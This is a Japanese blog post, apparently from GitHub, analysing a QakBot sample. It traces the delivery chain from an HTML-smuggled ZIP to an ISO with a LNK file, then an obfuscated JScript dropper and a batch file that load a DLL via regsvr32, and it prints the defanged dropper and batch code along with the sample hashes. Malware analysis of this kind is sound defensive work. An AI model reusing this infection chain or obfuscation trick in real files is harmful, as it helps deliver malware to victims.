 # QakBotを見てみる part2

何となくtwitterを見てたら、以下のように出てました。  

> #Qakbot is back after a short summer break
元ツイート： https://twitter.com/Max_Mal_/status/1569272800690700291

まず、Qakbotが夏休みから帰ってきたというのが少し面白かったのですが、そもそも確かに最近QakBotの名前また聞き始めたな、てのを今更気づきました。  
Note:　これ調べてるのは9/15です

で、見てみたら確かに9月以降から増えてます。  

![stats4qakbot](./images/stats.png)
引用元： https://bazaar.abuse.ch/browse/tag/Quakbot/

なんですかね？攻撃者も夏休みを取るのかなぁ。ランサムウェアチームとかもそうですしね。。  
※余談ですが、今はLockBitのリークサイト掲載が異常に増えてますね。。心配になります

ということで、QakBotが増えてるならちょっと見てみたいな、という気持ちで少し確認してみました。  

### 調査開始！

まず、malwarebazaarにあった以下ファイルで調査をします。  
sha256: 24de45cc2be1db49390912f26adebbf9d8740808f5fb6306e9dbf8d9aa9c5d46

これをダウンロードして、中身を見てみますとまずは、htmlファイルになっています。前と同じですね。  

![html](./images/html-file01.png)

まずは、このファイルの中身を見てみます。そうするとzipファイルの埋め込みがされているようですね、これも同じです。  

![html](./images/html-file02.png)

ちなみにhtmlをブラウザで開くと以下みたいな感じです。  

![html](./images/html-file03.png)

さあ、ZIPファイルを開いてみてみましょう。そうするとISOファイルが入っています。  
これをさらに見てみますと、lnkファイルと隠しフォルダが存在していました。  

![iso01](./images/iso-file01.png)

lnkファイルはお馴染みのexplorerアイコンですね。これは間違いなく存在するプロセスですからね。  
さらに、lnkのつながっている先は隠しフォルダ内にある`youBe.js`というファイルです。

では、この隠しフォルダ`about`の中を見てみましょう。そうするとjsファイル以外にbatとdbファイルがあるようです。

![iso02](./images/iso-file02.png)

さぁ次はjavascriptファイルですね。  

```js
/**
	{comment}
*/

function sh(str1)
{
	return(WScript.createObject("she" + str1 + "lication"));
}

var shell = sh("ll[.]app");
shell.shellexecute("about\\becauseTo[.]bat", "reg svr", "", "open", 0);
```
Note: 一応ドットだけdefangしました

めちゃくちゃ簡単なobfuscationですね。実際やりたいことは以下のコマンドですが、それを関数使って文字列結合することで見づらくしてます。

```js
"shell[.]application".shellexecute("about\\becauseTO[.]bat", "regsvr", "", "open", 0)
```
Note: 同上

次に、batファイルを見てみます。

```bat
@echo off
%1%232 about/itThis.db
exit
```

%1と%2は渡した引数のことですので、それぞれ以下になっています。  
1. %1 -> regsvr
2. %2 -> "" #空白

つまり、以下のコマンドを実行してます。  

`regsvr32 about/itThis.db`

まぁ、よくあるregsvr32の悪用ですね。そしてここからわかることは`itThis.db`というファイルはDLLと思われます。(まぁocxなど別のライブラリ系もあり得ますが)  

では、virustotalの結果を見てみましょう。  

![vt-file01](./images/vt-file01.png)  
https://www.virustotal.com/gui/file/1cbd5c3072fd99bff1408bc1f8a3b09206322de8b83b743a57efa24adefdb44f

virustotalで見ることができるサンドボックス実行結果などはそこまで説明するような情報もなかったので割愛します。  

### 終わりに

見る限り、特別目新しいことはなかったですね。まぁDLLの方が見れてないですが。  
やっぱりバイナリ解析までできるようになった方がいいなぁ、というのをヒシヒシと感じてますので、今は勉強中です。そのうち上げます。

とりあえず、少しでも皆さんのお力になれれば幸いです。  
ありがとうございました！
